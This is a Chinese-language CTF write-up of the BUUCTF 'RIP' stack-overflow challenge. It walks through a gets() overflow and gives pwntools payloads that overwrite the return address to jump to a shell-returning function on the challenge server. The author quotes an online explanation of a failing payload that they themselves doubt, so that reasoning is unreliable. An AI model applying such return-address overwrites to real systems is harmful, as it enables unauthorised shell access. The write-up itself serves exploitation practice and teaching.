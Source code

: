 ## RIP

首先程序拖到IDA看一下代码

![image-20200521120905993](https://static.hack1s.fun/images/2021/02/06/image-20200521120905993.png)

`main`函数的内容就这么短，是一个`gets`引起的溢出，看到这个`char s`距离rbp有Fh

侧边看到还有一个fun函数

![image-20200521121055537](https://static.hack1s.fun/images/2021/02/06/image-20200521121055537.png)

内容直接返回了一个shell



栈内的数据由近到远依次是局部变量、rbp，最后是返回地址

应该要覆盖返回地址到fun函数这里，这个值是`0x401186`

需要覆盖fh个字节的数组s的空间，以及8个字节的ebp

最后填写返回地址

按照这个逻辑写出来的payload是下面这样的

```python
from pwn import*
sh=remote('node3.buuoj.cn',27511)
payload='a'*23+p64(0x401186)
sh.sendline(payload)
sh.interactive()
```

但是不知道为啥执行出来不是这么个效果

在网上查了一些给的exp也是这样的，感觉有点问题

最后发现这样的两个exp可以执行出结果

```python
payload='a'*23+p64(0x401198)+p64(0x401186)
payload='a'*15+p64(0x401186)
```

有点疑惑，15个a的难道不是覆盖了rbp吗，好像没有覆盖返回地址呀

23个a的那个里面`0x401198`是fun函数结束的地址

没想明白是怎么回事，查到了一个资料这样写着

> 看了网上那些wp，经过研究思考发现，应该是他们使用23个‘a’覆盖时，多覆盖了8个’a‘，将Main函数栈顶覆盖了。我们知道call指令是先将当前ip指向位置压入栈的，多覆盖8字节正好将ip覆盖了，导致无法返回，从而get shell失败。
> 解决办法：payload=‘a’ * 23+ p64(0x401198) + p64(0x401186) #0x401198为返回地址

感觉不太对，但是目前还没想明白这个原因是什么